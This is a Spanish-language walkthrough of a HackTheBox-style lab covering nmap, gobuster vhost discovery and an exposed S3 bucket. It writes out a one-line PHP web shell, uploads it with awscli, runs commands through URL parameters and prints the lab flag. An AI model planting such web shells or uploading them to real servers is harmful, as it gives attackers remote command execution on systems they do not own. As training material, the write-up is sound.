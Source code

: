 --------
- Tags: #cloud #CustomApplications #AWS #reconocimiento #WebSiteStructureDiscovery #BuckerEnumeration #ArbitraryFileUpload #anonymous 
-------------
![](../img/96786bf88a0768588eab691b2daad522.png)

![](../img/48029065ce7f2e38832495c91949b8ef.png)

Realizamos un escaneo básico con Nmap:

```bash
nmap -p- -sV 10.129.163.114
```

![](../img/0c1d7b47524928193e9d5b93a32531bd.png)

✅ Resultado:

- Puerto **22/tcp** → SSH
    
- Puerto **80/tcp** → HTTP (Apache 2.4.29)
    

📌 **Respuesta:** `2`

![](../img/352a1a597958069aab520c414b37ed49.png)

En esta siguiente tarea, nos preguntan cual es el dominio de la cuenta de email en la seccion de Contact.

![](../img/1721048f551f8482bf6c8ca5cdda796e.png)

Navegamos a:  
`http://10.129.163.114/#contact`

Vemos una dirección de correo terminada en:

📌 **Respuesta:** `thetoppers.htb`

![](../img/8162b56427efbe214f76f07bfa96e55e.png)

## ¿Qué archivo de Linux resuelve nombres si no hay DNS?

La respuesta correcta es:

✅ **Respuesta:** `/etc/hosts`

![](../img/fc5ff811cb292d58705f7f46f4bfeb38.png)

Editamos el archivo y añadimos:

```bash
10.129.163.114  thetoppers.htb
```

![](../img/5bba1a6c073ee5d862d7cb3db0dae6c9.png)

## 🔎 Task 4 – Enumerar subdominios con Gobuster

Utilizamos `gobuster` con una wordlist de SecLists:

![](../img/710d3f87c0994c5be3029b600ffeb84e.png)

**IMPORTANTE**

Es necesario clonar el repositorio de DanielMiessLer de SecLists en /usr/share/wordlists:

![](../img/38232a57b7704d58d3b488568c62560e.png)

![](../img/03ee961f91e03d268aa885edd478fe1d.png)

![](../img/400eb94ec4989400cce699951a3edd12.png)

Bien, ya descargado en nuestro sistema, seguiremos con la tarea:

```bash
gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
```

![](../img/ba7942876a324ada1e7a444f3d17663a.png)

✅ **Respuesta:** `s3.thetoppers.htb`

## 💻 Task 5 – ¿Qué servicio corre en el subdominio?

![](../img/33ffdee29408aeb78962b51f3dc5663d.png)

Buscando en Google, `s3.thetoppers.htb` corresponde a **Amazon S3**.


![](../img/38f55a5e37047949495fe81a9b8d84e4.png)

## 💬 Task 6 – ¿Qué herramienta CLI interactúa con S3?



![](../img/dcc412bceb1f952ab8e354c0ae6cc32b.png)

![](../img/29dca65fab165fdffa22236b3bc2e8b0.png)

✅ **Respuesta:** `awscli`

En la siguiente, será AWS configure:

![](../img/10145802719b919ec944fe6100dcbda4.png)

## 🌐 Task 8 – ¿Qué lenguaje de scripting utiliza el servidor?

Intentamos listar contenido:

```bash
aws s3 ls --endpoint-url=http://s3.thetoppers.htb s3://thetoppers.htb
```

![](../img/46c3278a0c1754a183aec30965c7e901.png)

📛 Error. Añadimos en `/etc/hosts` también el subdominio:

```bash
10.129.163.114 s3.thetoppers.htb
```

Volvemos a lanzar el comando y vemos archivos `.php`.  

![](../img/46c3278a0c1754a183aec30965c7e901-1.png)

![](../img/ec475adc2df4966f03409dc3116118e1.png)

## 🧠 Escalada: Shell reversa

Creamos un archivo con una shell web:

```bash
<?php system($_GET['cmd']); ?>
```

![](../img/d8c42866d90bffc5b20a5ca385727d53.png)

Lo llamamos `shell.php`.

Crearemos este archivo, para poder tener funcionalidades de cmd en remoto.

📤 Lo subimos a S3:

```bash
aws s3 cp shell.php s3://thetoppers.htb --endpoint-url=http://s3.thetoppers.htb
```

![](../img/c06080c2ca2b1f3074dccece9ca7079f.png)

📥 Verificamos que se subió:

```bash
aws s3 ls s3://thetoppers.htb --endpoint-url=http://s3.thetoppers.htb
```

📌 Entramos con:

```bash
http://thetoppers.htb/shell.php?cmd=ls
```

![](../img/ceb675d2193f3b4a83299d5a8f278ecf.png)

## 🏁 Flag de usuario

Enumeramos el sistema desde la shell web:

```bash
http://thetoppers.htb/shell.php?cmd=ls+/var/www/html
http://thetoppers.htb/shell.php?cmd=ls+/var/www/html/../..
http://thetoppers.htb/shell.php?cmd=ls+/flag.txt
```

![](../img/01c22783e8504bb93ac4a77ff2aef8de.png)

![](../img/c4ce1b9d7a6ca338ae607c30e1bbd105.png)

![](../img/3280fbbe2e2b9bf009916ba59c293343.png)

📜 Finalmente accedemos a la flag:

```bash
http://thetoppers.htb/shell.php?cmd=cat+../flag.txt
```

![](../img/8f266c7d438bca6f084437fbc172479d.png)

📍 **Flag: `a980d99281a28d638ac68b9bf9453c2b`**

## ✅ Conclusión final

- Se accede a una web vulnerable con servicio S3 expuesto sin autenticación.
    
- Se descubre el subdominio `s3.thetoppers.htb` mediante fuerza bruta con SecLists.
    
- Se interactúa con el servicio usando AWS CLI.
    
- El bucket permite listar y subir archivos.
    
- Se sube una shell PHP, desde donde se ejecutan comandos remotos.
    
- Finalmente, se accede a la flag.
    

🧠 **Lección aprendida:** Nunca se deben exponer servicios como AWS S3 de forma pública sin restricciones. La combinación de mala configuración, falta de control de acceso y carga de archivos sin validación lleva directamente a una ejecución remota de comandos (RCE).

